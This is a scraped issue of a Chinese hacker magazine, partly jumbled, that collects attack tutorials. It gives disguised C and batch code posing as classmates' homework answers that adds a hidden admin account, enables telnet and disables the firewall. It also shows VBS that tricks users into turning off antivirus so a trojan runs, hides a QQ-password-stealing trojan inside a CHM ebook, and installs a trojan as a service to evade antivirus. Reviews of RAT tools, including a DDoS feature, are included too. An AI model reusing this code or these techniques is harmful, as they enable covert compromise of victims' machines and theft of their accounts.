@echo xxxxxxxxxxxxxxxxxxxxx（我写的C的课堂作业答案）
@pause
```

运行效果如图2。


图2

存 IP 的文本如图3。


图3

然后我们把这个批处理文件放到 K 盘去和同学说这个是今天课堂作业的答案，运行就可以直接看，这样很多人就会运行这个批处理了。之后我们只要到 K 盘的 kenzo 文件夹下的 1.TXT 文件里面看运行了这个批处理的电脑的 IP，再用 TELNET 连接就可以拿到 CMDSHELL 了。

厉害的叉子们可能会说，这样的批处理，万一谁用记事本打开的话，不是暴露了吗？知道了我们设置的用户名和密码还有 IP 存放文件，就相当于得到了所有本属于我们的成果。换句话说就是抢了咱的肉鸡吗？为了防止这个现象，我用 C 写了个很简单的调用外部程序的 exe 文件。代码如下：

```c
#include <stdlib.h>
main()
{system("k:\\kenzo\\1.bat");}
```

这个的意思是运行 k:\kenzo\1.bat 文件。接下来把上面的批处理文件放到 K 盘的 kenzo 文件夹，把 C 编译后的 exe 文件放到 K 盘根目录，改名叫“今天的C语言标准答案”，再把之前我共享的答案删了，再在班上吼一下“K盘有今天的上机答案耶~”，接下来就等着收获，嘿嘿。

因为一开始只想到用批处理来玩，后来担心批处理很容易被暴露，最近不是在学 C 嘛，我们活学活用，直接用 C 就能达到我们的要求。C 的代码如下：

```c
#include <stdlib.h>
main()
{system("@sc config start= auto");  //system()这个函数是发出一个DOS命令的函数
system("@net user kenzo 123 /add");
// 其实就是把上面的批处理进system函数里面而已
system("@net localgroup administrators kenzo /add");
system("@net start telnet");
system("@net stop sharedaccess");
system("@ipconfig >>k:\\kenzo\\1.txt");
system("@cls");
system("@echo C的答案如下：");
system("@echo xxxxxxxxxxxxxxxxxxxxx(我写的C的课堂作业答案)");
system("@pause");
}
```

```vbscript
Dim kenzo
Set kenzo=wscript.createobject("wscript.shell")
kenzo.run "c:\\windows\\notepad.exe"
wscript.sleep 1000
kenzo.sendkeys "hello~I`m kenzo"
```

然后在 CMDSHELL 里运行，效果是对方电脑突然打开一个记事本，然后键盘一个字一个字地输入 hello~I`m kenzo。这个效果很赞吧？玩法还有很多，叉子们自己去发掘吧。

本文作者交流地址为：http://www.hackx.cc/forum.php?mod=group&fid=87


> （本文所涉及的C代码和VBS代码已收录在本期光盘中）

拿到 CMDSHELL 之后可以怎么玩呢？可以先用 `net start messenger` 开启 Win 信使服务。然后用：`net send [目标IP] "[消息内容]"` 来发送消息，效果如图4。还可以利用 VBS 来模拟键盘按键，先在 K 盘下某个隐藏点的文件夹里建立一个 kenzo.vbs 文件，写入如上代码。

### 非一般的傻瓜翻墙之旅

光呼吸

黑X前几期介绍各种翻墙方法的文章已经很多很多了，但用了 Tor 等工具，不由得觉得它们的速度太慢了，这是因为 Tor 等工具为了保证不泄密会中转4次以上。以前也有文章介绍免费 VPN 的，比如 H.E.NET 和 PopGo 的，可是这些 VPN 有些地区现在已经被封了，没有被封的 VPN 服务很多是要收费的。我要介绍的 PacketiX VPN，已经推出有一段时间，非常稳定，没有被封，而且是免费的。

首先要下载安装客户端，这是它的官方网站：www.packetix.net，有四个版本：Windows 32 bit、Windows 64 bit、Linux 32 bit、Linux 64 bit，请根据需要选择。然后还要下载它的配置文件 secure.vpn，为方便叉子使用，光盘中附带了 32bit Windows 版和配置文件。

下载后一路 Next 完成安装。安装好之后运行，右键主界面的「Create New VPN Connection Setting」，选择「Import VPN Connection Setting...」，如图1，找到配置文件「secure.vpn」确定。之后主界面「Create New VPN Connection Setting」的下面会多出一个名为「Secure」的项目，右键点击，选择「Connect」，如图2，会弹出一个窗口，点击「Agree to the terms of service and start connection」，第一次使用还会要求安装驱动环境，允许安装即可。如图3，稍等片刻之后 VPN 便连接成功了，这时查一下 IP 地址，会发现已经变成了日本的 IP。

接下来，放手去拥抱自由吧，如图4，你懂的。


图3


图4

本文作者讨论群：http://www.hackx.cc/forum.php?mod=group&fid=88

（本文所涉及的 PacketiX VPN 和 secure.vpn 本期光盘已收录）

## 为ADSL Modem加把“隐形锁”

花的神明

对于大多数用户来说，采用的都是拨号方式上网的。这就离不开 ADSL Modem 的支持，可以说 ADSL Modem 是通向 Internet 的“必经之路”。如果您不希望别人随意使用自己的爱机上网冲浪的话，那么最有效的控制手段莫过于对 ADSL Modem 进行加密控制。使用 ModemLockDown 这款独特的加密软件，就可以轻松实现上述要求。ModemLockDown 提供了自动锁定、手动锁定、定时锁定 ADSL Modem 等功能，此外，ModemLockDown 还可以在隐形模式下运行，悄无声息地掌控 ADSL Modem 的使用大权。

ModemLockDown 不仅可以将自身添加到启动项中，还会在系统中创建名称为“System Mid”的服务，确保其可以跟随系统自动运行。当 ModemLockDown 安装完成后，在屏幕右下角会自动弹出密码配置面板（如图1），在其中的“Administration Password”栏中输入管理员密码，利用该密码可以执行 ModemLockDown 管理操作，例如更改密码、锁定 ADSL Modem、设置自动锁定的时间范围、调整 ModemLockDown 配置等。在“Unlock Password”栏中输入 ADSL Modem 解锁密码，之后点击 OK 按钮保存设置信息。

在系统托盘中的 ModemLockDown 图标的右键菜单上点击“Administration”项，在弹出面板顶部的“Admin Password”栏中输入管理员密码，之后就可以对其属性进行配置操作。在设置窗口左侧纵向工具栏中点击第一个按钮，在右侧窗口中可以更改管理员密码和解锁密码。

在纵向工具栏上点击第二个按钮，在右侧窗口（如图2）中，“Start-up behaviour”列表中如果选择“Automatically lock”项，表示以后启动 ModemLockDown 时，可以自动锁定 Modem；如果选择“Use user schedules”项，表示按照用户预设的时间范围锁定 Modem；如果选择“Keep unlocked”项，表示不对 Modem 执行锁定操作。

除了选择启动 ModemLockDown 时所采取的动作外，还可以深入配置 ModemLockDown 的高级属性。连续点击“Automatically lock dialup modems when I disconnect”项，当该项左侧出现红色标记时即可生效。


图1


图2

#### 傻瓜黑客


点击“Lock on disconnect”项，当其左侧出现红色的对号标记时，表示当您断开网络连接后，ModemLockDown 可以立即锁定 Modem。如果其左侧出现红色的叉子标记，表示禁用该功能。点击“Lock non-dialup modems”项，当该项左侧出现红色的对号标记时，表示锁定操作仅仅针对非拨号类型的 Modem。否则的话，针对的是用于拨号连接的 Modem。点击“Stealth mode”项，当该项左侧出现红色的对号标记时，表示激活 ModemLockDown 隐藏运行模式，在弹出的窗口（如图3）中的“Stealth mode-Access Key Combination”栏中设置激活热键……

之后当进入预设的时间范围内，并且激活了定时锁定功能后，就可以自动锁定 Modem。当然，您也可以手工对 Modem 执行锁定或者解锁操作。在 ModemLockDown 右键菜单上点击“Lock Modem”项，可以立即对 ADSL Modem 进行锁定操作。这样，所有的网络连接就会全部处于断开状态了。当希望对 ADSL Modem 进行解锁操作时，在 ModemLockDown 右键菜单上点击“Unlock Modems”项，在弹出的对话框中的“Unlock Password”栏中输入预设的解密密码……

在设置窗口左侧纵向工具栏中点击第二个按钮，在右侧窗口（如图4）中可以设置计划锁定功能。在“Scheduled User Access”列表中列出所有可用的系统账户名称，选择您所需的账户名称，在“Choose Access Hours”坐标栏中点击对应的时间段，其纵坐标表示星期数（从星期一到星期天），其横坐标表示小时数（从凌晨零点到深夜23点）……

本文作者讨论群地址：http://www.hackx.cc/forum.php?mod=group&fid=84

（本文所涉及的软件 ModemLockDown 已收录在本期光盘中）

### 解密某文件加密工具真伪

BasNet

周末闲来无事，于是整理了一下上个月的资料，结果发现一个“流光剑加密”的文件加密小软件，我个人对带“密”字的东西比较“来电”，于是想看看它是怎么鼓捣出来的。

#### 一、寻找密码

程序提供了两种加密方式，一种是普通的加密，另一种是“高级”加密，运行程序（如图1），而且只能加密文件夹。


用 Peid 查壳（如图2），是 upx 的壳。upx 壳是款众所周知的压缩壳，至于导入表 INT 是不加密的，直接载入 LordPe 看其 INT（如图3），里面有一个 Advapi32.dll，调用了该库中大量的注册表操作函数，看来密码有可能和注册表有关系。


设置密码为 **iwillfucku**，然后在“开始”——“运行”中输入 `regedit` 打开“注册表编辑器”，`Ctrl+F` 搜索“iwillfucku”字符串，结果（如图4）。


竟然真的能找到，返回程序以证明该 `sfolder` 键的确是由该程序所创建。用 IDA 载入程序，按 `Shift+F12` 打开字符串窗口（因为个人用的是 IDA5.5，比较新的版本默认不会打开 string 窗口），直接在 string 窗口中按“sfolder”，定位到字符串（如图5），看来程序的密码的确就是保存在这里，有了密码，“解密”就是“张飞吃豆芽”了。


#### 二、程序的“加密把戏”

程序的加密方式更是有点“变戏法”的味道。先看第一种普通加密方式，建立一个 `test` 文件夹，用程序进行加密，加密后注意文件夹的变化（如图6）。

文件夹的后面有一个“.”，这不就是使用的畸形目录嘛。畸形目录是 Windows 目录的一种缺陷，因为在 Windows 中“\”符号是路径的分隔符，例如“C:\Windows\”的意思是指 C 分区中的 Windows 文件夹，而“C:\Windows\System.exe”的意思是 C 分区中的 Windows 文件夹中的 System.exe 文件。那么如果文件名中有“\”符号会怎么样呢？假如“S\”是一个文件夹的名字，这个文件夹位于“F:\”，它的路径就是“F:\S\”，当我们试图访问时，Windows 会错误地认为我们要打开的文件是 F 分区下名为“S”的文件夹，而非“S\”文件夹，这样 Windows 就无法准确打开该文件夹，并且会返回一个错误信息，因为以上路径并不存在。

知道了原理，那么就在 Windows XP 下简单地创建“S\”文件夹吧。咦？怎么系统会提示“文件名不能包含符号”？微软早就想到了这点，但是我们却可以通过 CMD 里的 `mkdir` 命令建立这样的文件夹，比如输入 `mkdir hacker..\`，这样就能建立一个 `hacker.` 的目录。一个命令的操作竟然也能被程序拿来忽悠人，这个软件的作者估计比我还闲。

“解密”的方法就简单了，在“开始”——“运行”，直接输入加密文件路径“F:\逆向大本营\程序实践\sectest..\”（本机上的文件夹路径），所有的“加密”文件都能查看了。

接下来再看它的“高级加密”方式，勾选程序窗口中的“使用高级加密模式”，再次加密原来的 `test` 文件夹，加密后文件夹（如图7）。


双击加密后的文件夹竟然打开“我的电脑”，运行命令提示符，竟然能进入加密文件夹的目录，执行 `dir /a`，发现一个 `desktop.ini` 文件，查看其内容（如图8所示）。

只有一个 CLSID。CLSID 是系统中标识相应对象的一个 ID 值，双击加密文件夹后打开的是“我的电脑”。打开注册表编辑器（运行中执行 `regedit.exe`），`Ctrl+F` 搜索“我的电脑”，对比两个 CLSID，竟然是一样的，看来程序所谓的“高级加密模式”是在 `desktop.ini` 文件上做手脚。


“解密”的方法就更简单了，直接删除目录下的 `desktop.ini` 文件，目录被“解密”出来了。这个程序所谓的“加密”虽然简单，但却是 Windows 上常用的隐藏文件技巧，每次隐藏文件如果都手工操作着实比较费力，用这个工具使用上面介绍的两种隐藏方法还是挺“快捷”的。

（文章中所涉及到的软件已收录在光盘中）

### 不会免杀也来“战马”


说起挂马、绑马，是我等小菜最喜欢干的事了，可是也有一个很大的问题，就是我们不会制作免杀。没有免杀的木马在这个世界上可是很容易被查杀的，这极大地降低了我们抓肉鸡的成功率。难道不会免杀的我们就要这样忍气吞声吗？不，今天我就来告诉大家另一种绑马的方法。

来简单地说一下思路，因为我们的木马是没有经过免杀的，因此在杀毒软件强大的攻势下其结果可想而知，一定会死得很惨。为了能够运行木马，我们就必须要关掉杀毒软件，而且是让受害者自己退出杀毒软件。用户主动关掉杀毒软件，绝大多数情况下是在运行大型游戏或是调用外挂时，我们就是要利用他们的这个心理，来达到种马的目的。

具体的实现方法是这样的，这个方法的灵感还来源于今年第二期杂志上的一篇文章。我们先找一个外挂之类的程序，然后在其安装目录下找到外挂的主程序文件，把它更改为“xxx.dll”的格式，比如更改为“1.dll”，然后再把木马复制到外挂的安装目录下，也更改为“xxx.dll”的格式，比如“2.dll”。

```vb
a.run "cmd /c 1.dll",0,true
a.run "cmd /c 2.dll",0,true
else
    msgbox "文件丢失，请关闭杀软后重新下载安装",0+48,"启动失败"
end if
```


我就以“魔方教研室”这个软件来代表外挂，用计算器程序来代表木马，这样外挂的主程序就是“魔方教研室1.0.exe”，而木马就是“calc.exe”，如图1。把“魔方教研室1.0.exe”更改为“1.dll”，把“calc.exe”更改为“2.dll”并复制到魔方教研室程序的根目录下，如图2。


我们把这个 VBS 文件放到外挂的根目录下，当然最好把它包装成 exe 文件并更改成外挂主程序的名字，然后再更换一个和外挂一样的图标，这样迷惑性就更大了，成功的几率也更高。好了，运行一下来看看，两个程序都运行了，如图3。我们把“2.dll”删除掉，再来模拟一下杀毒软件删除木马的过程，运行后如图4所示。

```vb
set fso = wscript.createobject("scripting.filesystemobject")
set a = wscript.createobject("wscript.shell")

if fso.fileexists("1.dll") and fso.fileexists("2.dll") then
```


这样，就算是杀毒软件没有关闭，把我们的木马杀掉了，不明真相的小菜们也就无法运行外挂了……继而在屏幕上会显示“文件丢失，请关闭杀软后重新下载安装”的对话框，他们一定会乖乖地关掉杀软的……

> （文章中涉及到的 VBS 文件，已经收录在了光盘中）

### 菜鸟的新选择——北斗七星远程管理软件


最近小菜我在一个黑客论坛里发现了一款名为“北斗七星远程管理软件”的远控程序，于是就下载回来试用了一番，今天我们就好好地体验一下这个“北斗七星”，看它能不能让我等小菜在网络中所向披靡。

#### 一、配置服务端程序

首先我们从网上下载最新版的“北斗七星”远控程序，解压后运行其中的客户端程序。从弹出的界面中可以看到，该木马和以前常用的其它木马界面都差不多，只不过少了远程控制命令的工具栏而已。点击主界面“文件”菜单中的“编译程序”命令，在弹出的窗口中就可以进行服务端程序的配置了。“北斗七星”木马的配置非常简单，只需要设置“上线地址”就可以了。


但是大家需要注意的是，在 IP 地址后面需要设置连接端口 8080。至于其它的选项使用默认设置即可，当然我们也可以点击“图标”，在弹出的窗口中随便选择一个程序文件，这样木马就可以从中提取出相应的图标来使用了。最后点击“编译程序”按钮，就可以生成服务端程序了，如图1。


#### 二、远程控制的操作

习惯性地把服务端程序拖到虚拟机里来运行，很快服务端程序就上线成功了。通过列表中的信息，我们可以了解到上线主机的 IP 地址、物理地址、操作系统等信息，如图2。选中上线的主机并单击右键，在右键菜单中就可以看到所有的控制命令了，包括“管理中心”“视频监控”“远程终端”“命令广播”“其它功能”“移动分组”等。基本上所有的控制命令都包括在“管理中心”中了，所以我们首先就来看看这个“管理中心”都有什么。

#### 1、磁盘文件管理

默认打开的就是“文件管理”窗口，程序模拟了 Windows 系统中的资源管理器，所以我们只需要在目录树中选择想要操作的目录，或者是直接在上方的“地址”栏中输入想要打开的路径就可以了。在文件管理窗口中，通过右键菜单中的命令，我们可以执行上传、下载、打开、重命名等基本操作，如图3。为了方便一次进行多个文件的传输，我们还可以通过右键菜单中的 WinRAR 命令来压缩目标文件。首先通过鼠标选中想要进行压缩的文件，然后选择右键菜单中的 WinRAR 命令，在弹出的窗口中可以选择是压缩文件还是解压文件，并且在“目录”中还可以设置压缩文件存放的位置，最后点击“确定”按钮就可以进行压缩或解压操作了，如图4。不过要想使用这个功能的话，其前提就是远程系统中安装有 WinRAR 才行。接下来我们就可以在刚才设置的目录下找到生成的压缩文件，再选择右键菜单中的“下载”命令，在管理窗口的下方就可以看到文件传输的进度，不过有时候也会出现下载错误的情况。


图4

##### 2、窗口和进程管理

我们选择第二个“窗口管理”功能，在下方的列表中就可以清楚地看到当前系统的所有窗口信息，包括窗口标题、句柄、PID、进程和状态等等。点击窗口最右下角的“刷新窗”按钮，就可以获得最新的窗口信息了。我们选择想要进行操作的窗口选项，比如要进行窗口标题的修改操作，只需要在“修改标题”栏中输入新的内容，然后点击后面的“发送命令”就可以进行修改了，如图5。除此之外，我们还可以对窗口进行其它操作，比如关闭、显示、隐藏等等，我们只需要在“其它命令”下拉列表中进行选择，然后再点击“发送命令”按钮就可以进行相应执行了。

再来看看第三个“进程管理”功能，其实它和“窗口管理”功能有些相似，点击后就可以在下方的列表中查看到远程系统中的进程信息了，其中还包括了隐藏的软件进程。还是首先通过右键菜单中的“刷新进程”命令来获得系统最新的进程信息，其中隐藏的软件进程会使用红色来进行显示。选中某个进程后，通过右键菜单中的“终止进程”命令，就可以结束指定的进程了，如图6。不过为了保证系统的正常运行，我们最好不要结束系统进程，以免造成进程缺失而出现系统崩溃的情况。


图5


图6

##### 3、服务和注册表管理

接下来我们选择“服务管理”功能，它可以让我们查看远程计算机中的系统服务信息。还是先通过右键菜单中的“刷新服务”命令来获得远程系统中最新的服务信息，再通过右键菜单中的命令就可以对选中的服务进行刷新、启动、停止、删除等操作了，如图7。另外我们还可以把选中的服务进行挂起或激活，但遗憾的是这个远程程序暂时还不能进行服务的新建操作。

现在我们来选择“注册表管理”，就可以看到一个完全模拟的注册表编辑器。首先通过下拉菜单选择想要进行查看的注册表主键，然后依次选择想要查看的注册表项以及键值，最后通过右键菜单中的刷新、修改、删除、重命名等命令就可以对其进行修改操作了，当然我们也可以通过新建命令来添加新的项目和值，如图8。


图7


图8

#### 4、其它服务管理

接下来我们选择“收藏夹管理”，这个功能可以对远程系统的收藏夹信息进行管理。在列表中选择想要进行管理的网页链接，然后单击右键，通过右键菜单中的相应命令，就可以进行打开、删除、保存等操作了。如果想要修改这个链接的地址信息，可以在窗口下方的“链接地址”栏中输入新的链接地址，然后点击后面的“修改链接”按钮就可以进行修改了，如图9。


图9

最后我们再来看看“远程终端”功能，首先点击窗口中的“启动终端”按钮进行激活，这样就可以激活远程系统中的终端服务了，如图10。接下来在“快捷命令”下拉列表中选择各种终端命令，就可以执行更多的控制操作或是调用其它的控制软件，这样我们就可以有效地提高木马自身的控制能力了。


图10

#### 三、小结

通过试用我们可以看到，这个“北斗七星”远控程序目前还处于测试阶段，因此很多功能还不太完善，比如远程桌面功能暂时还没有，文件下载功能有时也不太好用等。不过通过软件中的文件压缩以及修改收藏夹内容等功能，还是可以看出作者在其上面的创新，所以等这款软件成熟以后，还是值得大家使用的。

（文章中涉及到的北斗七星远程管理软件 2010 版，已经收录在了光盘中）

### 让江编打造你的“Hellfire远控”

天涯衰草

世界杯期间生活规律被颠倒，正好和传说中的黑客一样。既然是热爱黑客的人，玩玩木马是必不可少的。正好今天在暗组论坛发现了一款名为“Hellfire远程控制”的木马。虽说这款木马的操作界面非常熟悉，但是冲着它由纯汇编编写完成，我还是决定来试一试它的威力。

……但是用户也可以选择注入到其它的系统进程中，比如资源管理器、系统启动项等。另外，还需要设置是否自动删除安装文件，以及设置服务端文件的属性，如图1。

除此以外，在“互斥标记”选项中输入相关的信息，这样就会禁止其他木马的安装和运行操作。所有的配置都完成以后，点击“生成服务端”按钮就可以了，生成的服务端程序只有 28K 大小，这是由于程序完全采用汇编编写完成的。

#### 一、配置服务端程序

首先从网上下载 Hellfire 远控的最新版本，解压运行后可以看到该木马的操作界面，和大名鼎鼎的灰鸽子木马非常相似。其实这个也非常好理解，因为任何一个木马都是从模仿开始的，而且 Hellfire 远控和灰鸽子木马也有本质的区别。现在来配置一个服务端程序，点击工具栏中的“配置服务端”按钮。

在弹出的“服务端配置”窗口中，第一步设置服务端的连接方式，用户可以使用 IP 地址、网页链接、域名解析等。如果用户不知道如何进行设置，可以点击输入框后面的“说明”按钮。

接下来分别在“安装路径”和“安装名称”中，选择服务端程序存放的目录以及文件名称，同时设置服务端程序的连接密码、上线分组、上线备注等信息。虽然点击“选择图标”按钮可以为服务端添加一个图标，但是我觉得尽量还是不要进行图标设置为好，因为这样可以避免服务端程序的体积变大。

由于“Hellfire远控”只可以使用服务来启动，所以需要设置“显示名称”“服务名称”和“描述信息”等。然后选择服务端程序的隐藏方式，Hellfire 远控默认使用的是 IE 浏览器……

#### 二、远程控制服务端

现在将刚刚配置成功的服务端上传到虚拟机里面进行运行。


图2


图1


图3

### 骇马记

的连接密码是1234。设置完成后，点击“在线主机”列表中的主机信息，就可以开始进行服务端程序的控制操作了。


图4

#### 1、磁盘文件管理

Hellfire 远控既然已经将主要功能通过功能标签的形式显示在窗口中，所以首先我们就来看看“文件管理”功能。点击上线主机前面的加号，就可以看到远程计算机的磁盘列表。任意选择一个磁盘进行点击，就可以在窗口看到对应的文件。由于文件管理模拟了资源管理器，所以操作控制起来非常简单方便。如图2，通过工具栏或者右键菜单中的命令，可以进行复制、粘贴、删除、文件传输等操作。

如果要进行文件下载操作，首先选择要进行下载的文件或文件夹，接着点击右键菜单中的“文件（夹）下载至”命令。这时 Hellfire 远控会弹出一个窗口，让用户设置下载文件存放的文件夹目录。设置完成以后切换到“传输管理”标签，就可以看到下载文件的传输进度情况。文件下载速度也是非常快速，并且文件的传输支持断点续传。同时还可以随意暂停正在传输的文件，而且续传还可以选择“断点续传”或“覆盖模式”，如图3。


图5

#### 2、注册表的管理

现在点击客户端中的“注册表编辑器”标签，这样就可以对本地和远程的注册表进行管理。在窗口左侧的列表中展开到需要的键值，比如和系统服务相关的键值内容，这样就可以修改或新建启动服务。当然通过鼠标右键中的控制命令，可以对注册表内容进行修改、新建、删除等操作，如图4。不过我在测试这个命令的时候，发现客户端程序常常出现延时和假死的问题，希望作者在下一个版本中可以对此进行修改。


图6

#### 3、进程窗口管理

点击客户端中的“进程管理”标签，就可以查看到远程系统的进程。点击窗口中的“查看进程”按钮获得最新的进程信息，可惜对于那些被隐藏的进程信息就无法看到。最后点击“终止进程”按钮就可以结束不需要的进程，如图5。

再点击客户端中的“窗口管理”标签，首先点击“查看窗口”按钮就可以获得最新的窗口信息。接下来通过“关闭窗口”“隐藏窗口”“显示窗口”等，就可以对这些窗口进行相应的控制操作，如图6。

运行后，发现其很快就连接到客户端程序。不过现在还不能进行控制操作，因为需要在“连接密码”中设置相应的密码，该木马默认为1234。

#### 4、系统服务管理

点击客户端中的“服务管理”标签后，需要首先点击“查看服务”命令按钮，这样就可以在列表中看到全部的服务。Hellfire 远控通过不同的颜色图标，对系统服务的当前状态进行标注。用户选择需要进行管理的系统服务后，可以对这些服务进行启动、停止、删除等操作。另外通过列表中的选项还可以修改指定服务的启动方式，如图7。如果将这个功能和注册表管理配合起来，可以更加有效地对系统服务进行管理操作。


#### 5、远程桌面查看

最后点击工具栏中的“屏幕监控”按钮，在弹出的“屏幕监控”窗口中不需任何操作，木马程序就可以自动开始进行捕捉操作。“Hellfire 远程控制”默认使用的是8位色，所以显示效果实在是非常一般。不过用户可以通过颜色下拉菜单选择其他更清晰的颜色。但是当选择效果比较好的色彩时，捕捉速度又好像慢了下来。点击工具栏中的“开始”命令，可以通过在捕捉的屏幕上进行鼠标键盘操作，如图8。另外，点击工具栏中的“保存”按钮，可以将当前的桌面信息保存为图片格式。


#### 6、集群控制操作

现在的木马都有集群控制操作，这样可以利用它进行刷票等操作，当然 Hellfire 远控也不可缺少。点击客户端程序中的“命令广播”标签，其中除了常见的重启计算机、关闭计算机等，还包括开启远程桌面、远程信息发送等内容。这里我们选择“压力测试”这个选项，接着分别在“域名”和“页面地址”选项中输入要进行传播的网站和网页地址。然后通过鼠标调节“线程”和“持续时间”的滑杆到合适的位置，设置完成以后点击“开始”按钮就可以开始测试了，如图9。


#### 三、小结

通过测试我们可以发现，Hellfire 远控在功能上和灰鸽子其实差不多，并没有什么特别亮眼的控制功能。但是由于木马本身采用纯汇编来编写，所以不但可以让服务端变得非常小，而且运行速度也更加快速和高效。不过 Hellfire 远控现在最大的问题就是还有几个功能运行时不太稳定，所以希望作者能在以后的版本中进行修复，并且增加一些其他的远程控制功能。

> （文章中涉及到的 Hellfire 远控已经收录在了光盘中）

### 战马记


## CHM电子书中的木马再现

大兵

CHM 格式是一种常见的电子书格式，我们常见的软件帮助文件或者热门小说，好多都是采用这种格式进行传播发布的。那么大家有没有想过，这种格式的电子书有可能会隐藏着木马呢？如果你不太相信的话，那就随着我的操作一起来了解一下吧。

#### 一、配置木马程序

首先我们来配置一个木马的服务端程序，测试使用的木马程序是“黑盟QQ大盗”，从名字就可以看出，这个木马是用于窃取 QQ 账号和密码的。运行木马程序后，可以看到木马使用了邮箱以及网页地址两种不同的收件方式。首先我们把木马程序目录中“收信文件”文件夹中的所有文件上传到自己的网站空间里，从而得到一个 ASP 文件的网页链接。接下来我们可以根据自己的需要，输入自己收信的电子邮箱地址或者 ASP 文件的网页链接地址，然后在“运行”输入框里输入一个时间，同时在后面的输入框里输入 QQ 的进程名称，这样在木马服务端程序运行后，在指定时间到了后就会结束 QQ 进程，当用户再次运行 QQ 的时候就可以窃取账号和密码了，如图1所示。设置完成后，点击“设置完毕，生成木马”按钮，就可以创建一个全新的服务端程序了。


#### 二、编写利用代码

现在我们需要编写一段代码，通过这段代码来调用服务端。随意打开一个文本编辑器，将下面这段代码复制到编辑器中，然后将这段代码另存为 index.htm 就可以了，如图2。

```html
<BODY onmousedown=document.selection.empty() oncontextmenu="return false" onselectstart="return false" ondragstart="return false" onbeforecopy="return false" oncopy=document.selection.empty() onselect=document.selection.empty()>
<OBJECT id=FUNNY codeBase=server.exe ...>
type=application/x-oleobject height=0 width=0 OBJECT>
```


这段代码主要起到两个作用，首先是对浏览器进行了一些访问控制，比如屏蔽了鼠标左键选择、屏蔽了鼠标右键弹出，以及屏蔽了鼠标拖拽操作等。其次这段代码负责加载指定的可执行文件，代码是通过 OBJECT 标签负责进行可执行文件加载操作的，而 OBJECT 后的文件名就是刚刚配置的服务端程序。

#### 三、伪装成电子书

现在在系统里面新建一个空白文件夹，接着将服务端程序文件 Server.exe 和代码文件 index.htm 复制到这个文件夹里面。接着从网上下载运行电子书制作工具 EasyCHM，这个工具制作电子书的操作步骤非常简单。首先点击工具栏中的“新建”命令，在弹出的“新工程目录”窗口里面，点击“浏览”按钮后选择刚刚新建的文件夹。接下来在“文件类型”列表中选择“*.*”，这样软件才可以将木马服务端也进行导入，如图3。


设置完成以后点击“确定”按钮退出设置窗口，这样就可以在 EasyCHM 软件的目录列表里面看到网页文件和服务端程序这两个文件。通过鼠标选中 index.htm 这个文件后，在右侧窗口的“源文件”就可以看到代码内容，如图4所示。


图4

所有操作都完成以后，点击工具栏中的“编译”命令。在弹出的编译窗口里面，可以设置一个诱人的电子书名称，如图6。


图6


图5

接着切换到窗口的“Html API”标签，将“编译 Html API 信息”选项的勾去除。然后再点击窗口下方的“CHM 设置”按钮，在弹出的设置窗口将“常规”“面板”和“按钮”标签中选项的勾都去除。设置完成以后点击确定按钮，返回到电子书编译窗口里面。现在点击窗口中的“生成 CHM”按钮，就可以对文件夹中的内容进行编译操作，很快一个 CHM 格式的电子书就创建完成了。当用户运行这个电子书文件后，里面的服务端文件也会随着自动运行。

为了更好地进行伪装，你可以在网上找些笑话或网络小说，将内容复制到这段代码的最后面即可。接下来我们点击窗口的“预览”标签后，软件会提示用户“文件内容已经改变，要保存这个文件吗？”，直接点击“是”按钮就可以预览到网页内容信息，如图5。

## Inf文件安装服务突破系统主动防御

Inf 文件在 Windows 系统中是比较常见的，在一些程序的安装过程中经常会被用到。Inf 文件能实现很多功能，其中之一就是可以完成服务的注册，并且该行为不会被大多数杀软的主动防御所拦截。下面我就来带大家演示下怎么利用 Inf 文件来安装服务，突破杀软的主动防御。此前我先给出一个安装服务的 INF 文件实例，安装服务成功后会创建一个名称为“Evil0r”、描述信息是“黑X投稿演示”的服务，如图1所示，其代码为：

```ini
[Version]
Signature="$WINDOWS.NT$"

[DefaultInstall.Services]
AddService=Evil0r,,Add.Evil.Service

[Add.Evil.Service]
DisplayName="Evil0r" ; 显示名称
Description="黑X投稿演示" ; 服务描述
ServiceType=0x10 ; 服务类型
StartType=2 ; 启动类型
ErrorControl=0 ; 错误控制
ServiceBinary=C:\Windows\inf\exe ; 服务要加载的exe文件路径
```

### 牧马记


木马我就以灰鸽子来演示了，但一定要是经过表面与内核免杀处理后的。我们先来配置一个服务端，在“安装选项”那里我们记录下安装路径，我的是 `$(WinDir)\SOUNDMANS.exe`，并且勾选上“服务安装成功后自动删除安装文件”。“启动项”选项卡两项都不要勾选，“高级选项”中的选项也都不要勾选，最后生成服务端 `muma.exe`。


突破的原理很简单，就是在木马运行前，利用 Inf 文件将木马注册为服务。不过目前存在两个问题：一是利用 Inf 文件安装服务时会被某些杀软的主动防御拦截（例如将瑞星防御状态调到最高时，如图3）；二是通过 INF 安装的服务默认类型虽然是自启动，但并非真正的启动项，系统会在启动时加载后再结束该服务进程，因此无法直接实现木马自启动。

针对第一个问题，可以将 `System32` 目录下的 `Rundll32.exe` 重命名后再用其安装服务。对于第二个问题，则通过一个中间程序实现木马启动：把 Inf 文件中服务加载的可执行文件指向中间程序，这样系统结束服务时只会结束中间程序，而木马进程不会被结束。

这个中间程序的功能就是启动我们的木马。下面就是我使用 SDK 编写的中间程序：


```c
#include "stdafx.h"

int APIENTRY WinMain(HINSTANCE hInstance,
                     HINSTANCE hPrevInstance,
                     LPSTR lpCmdLine,
                     int nCmdShow)
{
    char path[100];
    GetWindowsDirectoryA(path, 100);
    strcat(path, "\\SOUNDMANS.exe");
    WinExec(path, SW_SHOW);
    return 0;
}
```

大家使用 VC6.0 将其编译为 `loader.exe` 即可，接下来我们再编写一个 `Inst.bat` 的批处理文件：

```bat
echo [Version]>d:\inst.inf
echo Signature="$WINDOWS NT$">>d:\inst.inf
echo [DefaultInstall.Services]>>d:\inst.inf
echo AddService=ALSMTray,Add_Evil_Service,服务名称>>d:\inst.inf
echo [Add_Evil_Service]>>d:\inst.inf
echo DisplayName=ALSMTray;显示名称>>d:\inst.inf
echo Description=ARealtek HD Audio Sound Manager;服务描述>>d:\inst.inf
echo ServiceType=0x10 ;服务类型>>d:\inst.inf
echo StartType=2 ;启动类型>>d:\inst.inf
echo ErrorControl=0 ;错误控制>>d:\inst.inf
echo ServiceBinary=%windir%\loader.exe ;服务要加载的exe文件路径>>d:\inst.inf

copy %windir%\system32\rundll32.exe d:\notepad.exe
d:\notepad.exe setupapi,InstallHinfSection DefaultInstall 128 d:\inst.inf

call muma.exe
move loader.exe %windir%\loader.exe

del d:\notepad.exe
del d:\inst.inf
del %temp%\hide.vbs
del %temp%\inst.bat
```


